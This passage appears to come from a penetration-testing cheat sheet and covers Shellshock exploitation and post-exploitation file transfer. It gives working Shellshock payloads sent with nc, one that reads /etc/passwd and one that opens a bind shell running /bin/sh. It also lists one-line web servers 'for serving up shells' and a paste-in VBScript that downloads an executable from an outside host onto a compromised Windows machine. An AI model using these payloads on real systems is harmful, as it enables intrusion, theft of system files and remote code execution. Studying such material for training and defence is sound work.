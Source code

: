    -   cat file (view file contents)

              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock run bind shell

             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

File Transfers
============================================================================================================

-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc
        python3 -m http.server

    -   Run a ruby webrick basic http server
        ruby -rwebrick -e "WEBrick::HTTPServer.new
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    -   Run a basic PHP http server
        php -S $ip:80

-   Creating a wget VB Script on Windows:
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

-   Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo
